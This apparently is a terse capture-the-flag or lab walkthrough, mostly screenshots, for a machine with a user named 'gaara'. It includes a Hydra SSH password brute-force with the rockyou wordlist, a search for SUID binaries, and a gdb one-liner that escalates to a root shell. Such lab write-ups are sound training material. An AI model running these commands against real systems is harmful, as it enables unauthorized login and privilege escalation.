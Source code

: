 ![image](https://gist.github.com/assets/58165365/5d0a8933-4957-4314-8d8d-54099f5a63ab)

![image](https://gist.github.com/assets/58165365/0dc45859-6e4b-4fd8-b6cd-c039ec04d508)

![image](https://gist.github.com/assets/58165365/87ea0fbc-5a80-40bf-a306-7fcbccb6b9c3)

```bash
hydra -l gaara -P ~/Desktop/rockyou.txt ssh://192.168.236.142 -t 50
```

![image](https://gist.github.com/assets/58165365/6effd4fe-64ee-4d66-8142-b24a7e7b118f)

![image](https://gist.github.com/assets/58165365/84629d03-0bf8-4974-86ab-bb7e0b0a61dc)

![image](https://gist.github.com/assets/58165365/a6f1ef1b-357a-4c23-849e-5e43715f8a1e)

![image](https://gist.github.com/assets/58165365/96f19b55-0cd4-4bf3-be3e-32a7ccfce283)

![image](https://gist.github.com/assets/58165365/af58acca-a631-4409-b00a-a3583768464b)

or

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image](https://gist.github.com/assets/58165365/a9fa69c7-46cf-453a-af32-d2b60d113ac0)


![image](https://gist.github.com/assets/58165365/a71d8fae-313f-44ed-aff8-f0b4971c266a)

```bash
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

![image](https://gist.github.com/assets/58165365/082caf46-8287-4a95-a1da-374feab90df3)